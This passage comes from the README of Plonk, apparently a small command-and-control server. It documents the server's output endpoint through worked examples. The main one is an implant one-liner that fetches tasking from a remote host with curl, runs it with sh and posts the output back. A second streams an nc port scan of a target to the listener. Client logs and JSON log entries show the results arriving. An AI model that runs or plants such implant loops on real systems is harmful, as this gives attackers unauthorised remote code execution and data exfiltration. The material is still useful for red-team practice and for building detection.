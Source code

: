 It's not necessary to have a [`/c`-generated](#implant-generation-c) implant
running.  Anything may be sent to `/o` with any ID, using Plonk as a sort of
generic logger.  Don't forget to `,seti <ID>` before sending output to see it
in real-time.  It will still be logged, `,seti` or not, of course.

### Examples
Grab some tasking, using the ID `kittens`.

#### Implant:
```sh
curl -s https://example.com/t/kittens | 
sh 2>&2 | # We'll assume this is ps awwwfux from the previous section
curl --data-binary @- https://example.com/o/kittens
```
#### Client:
```
2023/12/30 00:29:11 [CALLBACK] Sent task to kittens (qlen 0):
ps awwwfux
2023/12/30 00:29:11 [OUTPUT] From kittens
USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
root         1  0.0  0.0   948   104 ??  I      Sat01AM    0:01.01 /sbin/init
root     30130  0.0  0.0  1112    24 ??  Ip     Sat01AM    0:00.00 - /sbin/slaacd
_slaacd  83001  0.0  0.0  1108    24 ??  Ip     Sat01AM    0:00.00 |-- slaacd: engine (slaacd)
_slaacd  55365  0.0  0.0  1128    24 ??  IpU    Sat01AM    0:00.00 `-- slaacd: frontend (slaacd)
...
```

#### On Target:
Send cheesy portscanner output to Plonk using OpenBSD's
[`nc(1)`](https://man.openbsd.org/nc.1) as open ports are found:
```sh
nc -zw1 100.100.100.2 1-65535 2>&1 | # Hope you get RSTs back...
while read -r l; do
        echo "$l" | curl --data-binary @- http://127.0.0.1:8080/o/portscan
done &
```

#### Client:
```
(plonk)> ,seti portscan
2024/01/17 20:41:26 Interacting with portscan
2024/01/17 20:41:26 Use ,logs to return to watching Plonk's logs
2024/01/17 20:41:50 [OUTPUT] From portscan
Connection to 100.100.100.2 21 port [tcp/ftp] succeeded!
2024/01/17 20:41:50 [OUTPUT] From portscan
Connection to 100.100.100.2 22 port [tcp/ssh] succeeded!
2024/01/17 20:41:50 [OUTPUT] From portscan
Connection to 100.100.100.2 23 port [tcp/telnet] succeeded!
```

This is logged as
```json
{"time":"2024-01-17T20:43:03.210942091+01:00","level":"INFO","msg":"Output",
 "output":"Connection to 100.100.100.2 21 port [tcp/ftp] succeeded!",
 "id":"portscan","host":"127.0.0.1:8080","method":"POST",
 "remote_address":"127.0.0.1:47501","url":"/o/portscan"}
{"time":"2024-01-17T20:43:03.233814119+01:00","level":"INFO","msg":"Output",
 "output":"Connection to 100.100.100.2 22 port [tcp/ssh] succeeded!",
 "id":"portscan","host":"127.0.0.1:8080","method":"POST",
 "remote_address":"127.0.0.1:27598","url":"/o/portscan"}
{"time":"2024-01-17T20:43:03.257795851+01:00","level":"INFO","msg":"Output",
 "output":"Connection to 100.100.100.2 23 port [tcp/telnet] succeeded!",
 "id":"portscan","host":"127.0.0.1:8080","method":"POST",
 "remote_address":"127.0.0.1:12273","url":"/o/portscan"}
```